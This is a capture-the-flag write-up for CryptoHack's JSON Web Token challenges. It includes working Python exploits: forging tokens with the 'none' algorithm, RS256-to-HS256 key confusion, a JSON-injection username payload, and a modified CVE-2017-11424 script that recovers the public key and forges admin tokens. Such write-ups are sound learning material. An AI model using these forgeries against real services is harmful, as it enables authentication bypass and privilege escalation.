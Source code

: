 ```yaml
---
title: CRYPTO ON THE WEB - JSON Web Tokens
categories:
- CryptoHack
excerpt: |
  
---
```


This is my writeup of the [CryptoHack Crypto On The Web challenges](https://cryptohack.org/challenges/web/).

### Token Appreciation

I decoded the token with [https://jwt.io/](https://jwt.io/) to get crypto{jwt_contents_can_be_easily_viewed}.


### JWT Sessions

What is the name of the HTTP header used by the browser to send JWTs to the server? <br>
authorization

### No Way JOSE

To solve this challenge we create a JWT using the 'none' algorithm. 

```python
import jwt #pip install pyjwt
print(jwt.encode({'username':'user','admin':'true'},'',algorithm='none'))
```

### JWT Secrets

To solve this challenge we use the hint # TODO: PyJWT readme key, change later. <br>
The readme key can be found at https://github.com/jpadilla/pyjwt/ and is "secret".

```python
import jwt #pip install pyjwt
print(jwt.encode({'username':'user','admin':'true'},'secret',algorithm='HS256'))
```

### RSA or HMAC?

We can solve this challenge by changing the signing algorithm from RS256 to HS256 and signing the token with the same public key.

```python
import jwt # pip install pyjwt==1.5.0
PRIVATE_KEY = "-----BEGIN RSA PUBLIC KEY-----\nMIIBCgKCAQEAvoOtsfF5Gtkr2Swy0xzuUp5J3w8bJY5oF7TgDrkAhg1sFUEaCMlR\nYltE8jobFTyPo5cciBHD7huZVHLtRqdhkmPD4FSlKaaX2DfzqyiZaPhZZT62w7Hi\ngJlwG7M0xTUljQ6WBiIFW9By3amqYxyR2rOq8Y68ewN000VSFXy7FZjQ/CDA3wSl\nQ4KI40YEHBNeCl6QWXWxBb8AvHo4lkJ5zZyNje+uxq8St1WlZ8/5v55eavshcfD1\n0NSHaYIIilh9yic/xK4t20qvyZKe6Gpdw6vTyefw4+Hhp1gROwOrIa0X0alVepg9\nJddv6V/d/qjDRzpJIop9DSB8qcF1X23pkQIDAQAB\n-----END RSA PUBLIC KEY-----\n"
print(jwt.encode({'username': 'user', 'admin': True}, PRIVATE_KEY, algorithm='HS256').decode())
#eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6dHJ1ZX0.kQ9Cl3pOTU1ERqB4GZi3G-4bKkHzpnycu6giuKHC0uQ
```

### JSON in JSON

Create a session with the following username: <br>    user", "admin": "True <br>
This creates the body as {"admin": "False", "username": "user", "admin": "True"}.

### RSA or HMAC? Part 2

```python
# modified script from https://github.com/silentsignal/rsa_sign2n/blob/release/CVE-2017-11424/x_CVE-2017-11424.py

import sys
import jwt
import json
import base64
from gmpy2 import mpz,gcd,c_div
import binascii
from Crypto.Hash import SHA256
from Crypto.Signature import PKCS1_v1_5 # god bless http://ratmirkarabut.com/articles/ctf-writeup-google-ctf-quals-2017-rsa-ctf-challenge/
import asn1tools
import binascii
import time
import hmac
import hashlib

# I created 2 tokens, with username user1 and user2
jwt0="eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiYWRtaW4iOmZhbHNlfQ.UWQ8HHOHtX5ADVCbIiLGilw7VwgkzvHKDi2h2H2rVCsG7nJCWqKRy5XdlgGFEK_92bG-jZDPep4NKz-pf2UlwzseZQAhdgxYz410Rl8Y0oGPv3kdKzQPZRcrSs8Jodg00fojEM88Tmiz5OeWayhi_ROgDS9Oai6gCQ5BOb2w0BpbjAyN3w4n4WXhsNtqhHjFyCM9JJBSECeFhjwHBNY1RaufkkfBlWo1gISRxVUlZJ85ji-rGWSLM4RBzhOBVu2aDS7ZfgYllx8HCegXUsmLqImPWwOfh5_n3K5VCrJN7MkQ4cH3kl--TciTYdgt5PsNtwwKZHd6q0M1-LShmvWIMA"
jwt1="eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIyIiwiYWRtaW4iOmZhbHNlfQ.vghJTYAv-C9u4ayDZHIyF8H0nwXnN2LFKaah3_3JJhW9iB-3cC2R1jkRBsiQ0RMLW6TqDOTqz7Yy44NAkX3Nlg2jK8XwWGhbKtEICYBZFxvUZaEuW2u33fEKirGk6she2UAX5gXaPicr9dOtZ7v8t_9yxGfKyr69budtVjThNSe9BpNvgAsLm-nirW7dIDdNyUI6t28WyXak-Z2_ZAr6iwBS6F8kwVXEwDQlrqIdKlWVES9iCn4YI6Tuzy1WAUcG-v8oX_Ze_yNWc4huEfj7eIkUUIwnY1X4fpbrUVvE6uThJxNRl5OYccByf1cnh8kaBUNyn6lwvGjHgKrnOzLGOw"

def b64urldecode(b64):
    return base64.urlsafe_b64decode(b64+("="*(len(b64) % 4)))
def b64urlencode(m):
    return base64.urlsafe_b64encode(m).strip(b"=")
def bytes2mpz(b):
    return mpz(int(binascii.hexlify(b),16))
def der2pem(der, token="RSA PUBLIC KEY"):
    der_b64=base64.b64encode(der).decode('ascii')
    lines=[ der_b64[i:i+64] for i in range(0, len(der_b64), 64) ]
    return "-----BEGIN %s-----\n%s\n-----END %s-----\n" % (token, "\n".join(lines), token)
def forge_mac(jwt0, public_key):
    jwt0_parts=jwt0.encode('utf8').split(b'.')
    jwt0_msg=b'.'.join(jwt0_parts[0:2])
    alg=b64urldecode(jwt0_parts[0].decode('utf8'))
    alg_tampered=b64urlencode(alg.replace(b"RS256",b"HS256"))

    # here i edit the payload as  {"username":"user1","admin":true}
    payload=json.loads( '{"username":"user1","admin":true}' )

    payload['exp'] = int(time.time())+86400
    payload_encoded=b64urlencode(json.dumps(payload).encode('utf8'))
    tamper_hmac=b64urlencode(hmac.HMAC(public_key,b'.'.join([alg_tampered, payload_encoded]),hashlib.sha256).digest())
    jwt0_tampered=b'.'.join([alg_tampered, payload_encoded, tamper_hmac])
    print("[+] Tampered JWT: %s" % (jwt0_tampered))

jwt0_sig_bytes = b64urldecode(jwt0.split('.')[2])
jwt1_sig_bytes = b64urldecode(jwt1.split('.')[2])
jwt0_sig = bytes2mpz(jwt0_sig_bytes)
jwt1_sig = bytes2mpz(jwt1_sig_bytes)
jks0_input = ".".join(jwt0.split('.')[0:2])
sha256_0=SHA256.new(jks0_input.encode('ascii'))
padded0 = PKCS1_v1_5.EMSA_PKCS1_V1_5_ENCODE(sha256_0, len(jwt0_sig_bytes))
jks1_input = ".".join(jwt1.split('.')[0:2])
sha256_1=SHA256.new(jks1_input.encode('ascii'))
padded1 = PKCS1_v1_5.EMSA_PKCS1_V1_5_ENCODE(sha256_1, len(jwt0_sig_bytes))
m0 = bytes2mpz(padded0) 
m1 = bytes2mpz(padded1)
pkcs1 = asn1tools.compile_files('pkcs1.asn', codec='der')
x509 = asn1tools.compile_files('x509.asn', codec='der')
for e in [mpz(3),mpz(65537)]:
    gcd_res = gcd(pow(jwt0_sig, e)-m0,pow(jwt1_sig, e)-m1)
    for my_gcd in range(1,100):
        my_n=c_div(gcd_res, mpz(my_gcd))
        if pow(jwt0_sig, e, my_n) == m0:
            pkcs1_pubkey=pkcs1.encode("RSAPublicKey", {"modulus": int(my_n), "publicExponent": int(e)})
            x509_der=x509.encode("PublicKeyInfo",{"publicKeyAlgorithm":{"algorithm":"1.2.840.113549.1.1.1","parameters":None},"publicKey":(pkcs1_pubkey, len(pkcs1_pubkey)*8)})
            pem_name = "%s_%d_x509.pem" % (hex(my_n)[2:18], e)
            with open(pem_name, "wb") as pem_out:
                public_key=der2pem(x509_der, token="PUBLIC KEY").encode('ascii')
                pem_out.write(public_key)
                forge_mac(jwt0, public_key)
            pem_name = "%s_%d_pkcs1.pem" % (hex(my_n)[2:18], e)
            with open(pem_name, "wb") as pem_out:
                public_key=der2pem(pkcs1_pubkey).encode('ascii')
                pem_out.write(public_key)
                forge_mac(jwt0, public_key)
    
#tampered JWT: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ICJ1c2VyMSIsICJhZG1pbiI6IHRydWUsICJleHAiOiAxNjQwNTc1MTI2fQ.eYTJvTz4tWny9dPZDtwPjCu92FLBoTxYiQP8YpgFtYI
```
